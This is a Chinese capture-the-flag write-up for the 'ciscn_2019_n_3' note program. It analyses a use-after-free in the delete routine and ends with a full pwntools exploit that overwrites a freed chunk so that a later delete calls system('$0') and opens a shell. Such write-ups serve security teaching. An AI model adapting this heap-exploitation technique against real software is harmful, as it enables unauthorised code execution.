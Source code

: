 ## 0x001 程序分析

该程序是个笔记程序，具有新增、删除、打印的功能。

使用IDA分析程序，程序的主要功能都在 **do_new** 函数中

### do_new

![](1.jpg)

该函数先创建一个12字节的堆区存储三部分内容，根据选择输入的类型填充不同的内容，可称为note管理区。

|  Integer  |  Text  |
|  :----:  | :----:  |
|  charr rec_int_print[4]  |  char rec_str_print[4]  |
|  char rec_int_free[4]  |  char rec_str_free[4]  |
|  int value  |  char value[4]  |

在note管理区中，如果选择输入的内容是Integer类型，则输入的内容就存放在note管理区中；如果选择输入的内容是Text类型，则会申请相应大小的堆区，将输入的内容就存放在堆区中，而note管理区中存放的就是堆区的地址。

### do_del

![](2.jpg)

这里只是通过索引调用rec_int_free/rec_str_free去释放内存。

### do_dump

![](3.jpg)

这里只是通过索引调用rec_int_print/rec_str_print去打印信息。

### rec_int_free/rec_str_free

![](4.jpg)

![](5.jpg)

删除笔记都是通过这两个函数实现的，都只是用了 **free** 来释放堆空间。

## 0x002 漏洞分析

由于程序在使用 **rec_int_free/rec_str_free** 释放堆空间时，未将相应的堆区和 **records** 数组清空，因此可通过索引 **records** 数组再次访问堆区，造成UAF漏洞。

## 0x003 漏洞利用

首先创建两个Integer类型的note，此时会创建两个大小为0x10的note管理区。

```
new_note(0, 1, 1)
new_note(1, 1, 1)
```

此时堆区内容如下：

![](6.jpg)

然后再删除这两个note

```
del_note(0)
del_note(1)
```

此时堆区内容如下：

![](7.jpg)

可以看到，删除note之后，会形成两个fastbin，并且原先堆区的内容仍然存在。

那么此时再次申请一个Text类型，大小为0x10的note2时，就会将fastbins中的两个地址都取出来用，一个作为note管理块，一个作为note内容块。

后释放的note1管理区会被先拿出来用，当作note2的管理区，先释放的note0管理区会被用作note2的内容区使用，那么note0的管理区就变为note2的内容区，可被修改。

此时，就可以通过创建Text类型的note2修改note0管理区中的 **rec_int_print** 地址和 **rec_int_free** 地址。

```
new_note(2, 2, b"$0\x00\x00"+p32(elf.plt["system"]), 10)
```

上面是将note0管理区中的 **rec_int_print** 地址改为 **"$0\x00\x00"**，**rec_int_free** 地址改为了 **system** 地址。

为何这么修改呢？因为在调用 **do_del** 函数时，执行的指令是
```
(*(records[v0] + 4))(records[v0]);
```

在调用 **do_dump** 删除note函数时，执行的指令是
```
(*records[v0])(records[v0]);
```

因此，在调用 **do_del** 函数时，**rec_int_free** 位置处就是要调用的函数地址， **rec_int_print** 位置处就是参数。

新建note2之后，此时堆区内容如下：

![](8.jpg)

可以看到已经将note0管理区中的内容修改了，并且在 **record** 中还可以访问到note0。

那么最后调用 **do_del** 函数删除note0，就会跳转执行 **system("$0")**，从而获取系统权限。

最终exp如下：
```
from pwn import *

p = process("./ciscn_2019_n_3")
elf = ELF("ciscn_2019_n_3")

def new_note(idx, type, value, len=0):
    p.sendlineafter("CNote > ", str(1))
    p.sendlineafter("Index > ", str(idx))
    p.sendlineafter("Type > ", str(type))
    
    if type == 1:
        p.sendlineafter("Value > ", str(value))
    elif type == 2:
        p.sendlineafter("Length > ", str(len))
        p.sendlineafter("Value > ", value)

def del_note(idx):
    p.sendlineafter("CNote > ", str(2))
    p.sendlineafter("Index > ", str(idx))

def show_note(idx):
    p.sendlineafter("CNote > ", str(3))
    p.sendlineafter("Index > ", str(idx))

new_note(0, 1, 1)
new_note(1, 1, 1)

del_note(0)
del_note(1)

new_note(2, 2, b"$0\x00\x00"+p32(elf.plt["system"]), 10)
del_note(0)

p.interactive()
```